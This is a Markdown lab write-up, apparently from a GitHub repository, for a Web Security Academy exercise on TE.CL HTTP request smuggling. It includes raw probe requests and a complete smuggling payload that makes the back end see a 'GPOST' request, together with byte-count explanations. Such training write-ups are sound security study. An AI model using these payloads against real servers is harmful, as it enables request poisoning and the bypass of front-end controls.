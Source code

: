 # HTTP request smuggling, basic TE.CL vulnerability
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method. \
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Analysis
### Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```
|![](Images/image-3.png)|
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |

### Determining what the back-end is using
If back-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the last byte (`X`) is striped by front-end becouse it uses `Transfer-Encoding` header (`0`indicates the end of the message).
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
|![](Images/image-4.png)|
|:--:| 
| *No response* |
|![](Images/image-5.png)|
| *Time-out - Back-end is using Content Length header* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a180087043380db80f8a3db007700e3.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The `Content-Length: 4` value:
```
5c\r\n                                                              +4
GPOST / HTTP/1.1\r\n                                                +0
Content-Type: application/x-www-form-urlencoded\r\n                 +0
Content-Length: 15\r\n                                              +0
\r\n                                                                +0
x=1                                                                 +0 
```

The `bytes number 5c` value:
```
5c\r\n                                                              +0
GPOST / HTTP/1.1\r\n                                                +18
Content-Type: application/x-www-form-urlencoded\r\n                 +49
Content-Length: 15\r\n                                              +20
\r\n                                                                +2
x=1                                                                 +3 
```
The `Content-Length: 15` of the smuggled request must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (few bytes of the normal request will be appened to the smuggled request).

|![](Images/image-6.png)|
|:--:| 
| *First request - poisoning* |
|![](Images/image-7.png)|
| *Second request - request was smuggled* |
|![](Images/image-8.png)|
| *Second request with visible signs "\r" and "\n"* |
